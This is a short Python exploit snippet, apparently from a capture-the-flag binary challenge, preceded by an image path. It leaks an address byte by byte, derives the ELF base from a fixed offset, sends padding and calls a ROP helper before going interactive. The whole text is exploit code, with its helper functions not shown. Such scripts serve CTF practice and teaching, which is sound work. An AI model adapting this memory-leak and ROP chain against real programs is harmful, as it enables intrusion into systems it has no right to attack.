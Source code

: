 ```py
for i in range(11):
	leak_addr = b''
	for i in range(8):
		sn(b'a')
		leak_addr += rn(1)
	leak_addr = uu64(leak_addr)
	lg("leak_addr")
lg("leak_addr")
elf_base = leak_addr - 0x10430

sn(b'\x00')
for i in range(0x5f):
	sn(b'a')
sn(b'\x00')

debugPID()
sn(b'a')
ROP(elf_base)

irt()
```